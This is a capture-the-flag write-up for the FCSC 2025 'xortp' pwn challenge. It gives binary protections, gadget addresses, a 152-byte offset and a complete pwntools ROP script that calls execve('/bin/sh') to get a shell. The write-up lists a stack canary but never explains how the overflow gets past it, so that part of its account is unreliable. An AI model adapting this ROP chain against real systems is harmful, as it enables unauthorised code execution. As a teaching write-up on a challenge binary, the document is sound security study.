 ```yaml
---
title: "FCSC 2025 - Challenge Xortp"
date: 2025-04-28
tags: ["Pwn"]
categories: ["Pwn"]
ctfs: ["fcsc"]
---
```

# Writeup: xortp

## Challenge Overview

This challenge involves exploiting a buffer overflow vulnerability in the "xortp" binary to gain a shell and read the flag. The exploit leverages Return-Oriented Programming (ROP) to bypass modern security protections.

## Binary Analysis

The binary has the following protections:
- Architecture: amd64-64-little
- RELRO: Partial RELRO
- Stack: Canary found
- NX: NX enabled (No execution on stack)
- PIE: No PIE (fixed base address at 0x400000)
- Not stripped

The key vulnerability appears to be a buffer overflow that allows overwriting the return address despite stack canaries being enabled.

## Vulnerability and Exploitation

The vulnerability is a classic buffer overflow where we can overwrite the return address. Since NX is enabled, we cannot directly execute shellcode on the stack. Instead, we use ROP to chain together existing code fragments (gadgets) to execute a system call.

### Exploitation Strategy

1. Overflow the buffer to control the instruction pointer  
2. Build a ROP chain to execute `execve("/bin/sh", 0, 0)` syscall  
3. Get a shell and read the flag  

---

### 🔧 Syscall Calling Convention Reference

| Architecture      | Syscall Number Reg | Argument 1 | Argument 2 | Argument 3 | Argument 4 | Argument 5 | Argument 6 | Return Value | Instruction |
|------------------|--------------------|------------|------------|------------|------------|------------|------------|---------------|-------------|
| **x86 (32-bit)** | `eax`              | `ebx`      | `ecx`      | `edx`      | `esi`      | `edi`      | `ebp`      | `eax`         | `int 0x80`  |
| **x86_64**       | `rax`              | `rdi`      | `rsi`      | `rdx`      | `r10`      | `r8`       | `r9`       | `rax`         | `syscall`   |
| **ARM (32-bit)** | `r7`               | `r0`       | `r1`       | `r2`       | `r3`       | `r4`       | `r5`       | `r0`          | `svc 0`     |
| **ARM64**        | `x8`               | `x0`       | `x1`       | `x2`       | `x3`       | `x4`       | `x5`       | `x0`          | `svc 0`     |

This table is especially useful in ROP-based attacks where we construct a syscall manually by populating the appropriate registers using gadgets.

---

### ROP Chain Details

Our goal is to execute the `execve` syscall (syscall number 59) with the following arguments:
- `rdi` = pointer to "/bin/sh" string (first argument)
- `rsi` = 0 (second argument - argv, set to NULL)
- `rdx` = 0 (third argument - envp, set to NULL)
- `rax` = 59 (syscall number for execve)

We use the following ROP gadgets:
```
pop_rdi = 0x0000000000401f60       # Control first argument
pop_rsi = 0x000000000040f972       # Control second argument
pop_rax_rdx_rbx = 0x00000000004867a6  # Control syscall number and third argument
syscall_gadget = 0x00000000004011a2  # Execute the syscall
```

The string "/bin/sh" was found at address 0x00498213 in the binary.

### Buffer Size

The required padding before reaching the return address is 152 bytes.

## Exploit Implementation

The exploit script uses pwntools to construct and send the payload:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('xortp')

# ROP gadgets
pop_rax = 0x00000000004424f7   
pop_rsi = 0x000000000040f972   
pop_rdi = 0x0000000000401f60   
pop_rax_rdx_rbx = 0x00000000004867a6  
syscall_gadget = 0x00000000004011a2  

addr_bin_sh = 0x00498213          

# Connect to the process
io = process('./xortp')  # or remote("host", port)

# Syscall parameters for execve("/bin/sh", 0, 0)
path = addr_bin_sh    # First argument: path to binary
argv = 0              # Second argument: argument array (NULL)
envp = 0              # Third argument: environment variables (NULL)
syscall_num = 59      # Syscall number for execve

BUFFER = 152  # Size of buffer before return address

# Construct the payload
payload = flat(
    b'A'*BUFFER,      # Padding to reach return address
    p64(pop_rdi),     # Pop path into RDI (first argument)
    p64(path),        # Address of "/bin/sh" string
    p64(pop_rsi),     # Pop 0 into RSI (second argument)
    p64(argv),        # NULL for argv
    p64(pop_rax_rdx_rbx),  # Pop syscall number into RAX and third argument into RDX
    p64(syscall_num), # Syscall number for execve (59)
    p64(envp),        # NULL for envp (third argument)
    p64(0),           # Dummy value for RBX
    p64(syscall_gadget)  # Execute the syscall
)

# Send the payload
io.sendline(payload)
io.sendline("id && cat flag.txt")  # Run commands in the obtained shell
io.interactive()
```

## Execution Flow

1. We send a payload that fills the buffer with 152 'A's to reach the return address  
2. The ROP chain is executed:  
   - `pop_rdi` gadget pops the address of "/bin/sh" into RDI  
   - `pop_rsi` gadget pops 0 into RSI  
   - `pop_rax_rdx_rbx` gadget pops 59 into RAX (syscall number), 0 into RDX, and a dummy value into RBX  
   - `syscall_gadget` executes the syscall, which runs execve("/bin/sh", 0, 0)  
3. We now have a shell and can read the flag with `cat flag.txt`  

## Flag

After gaining the shell, we can read the flag with `cat flag.txt` command.

## Conclusion

This challenge demonstrates a classic ROP-based exploitation technique to bypass NX protection. By chaining together existing code gadgets, we can execute arbitrary system calls without injecting executable code onto the stack.